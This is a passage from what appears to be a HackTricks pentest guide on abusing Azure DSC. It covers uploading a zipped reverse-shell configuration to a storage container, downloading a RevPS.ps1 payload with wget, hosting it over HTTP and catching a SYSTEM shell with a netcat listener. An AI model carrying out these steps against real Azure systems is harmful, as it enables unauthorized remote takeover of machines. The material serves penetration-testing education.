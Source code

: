 - Step 2 — Zip Configuration File

The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```bash
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

- Step 3 — Set Storage Context & Upload

The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```bash
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

- Step 4 — Prep Kali Box

The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

The script is edited to specify the target Windows VM and port for the reverse shell.

- Step 5 — Publish Configuration File

The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.

- Step 6 — Host Payload and Setup Listener

A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

The scheduled task executes the payload, achieving SYSTEM-level privileges.

{{#include ../../../banners/hacktricks-training.md}}


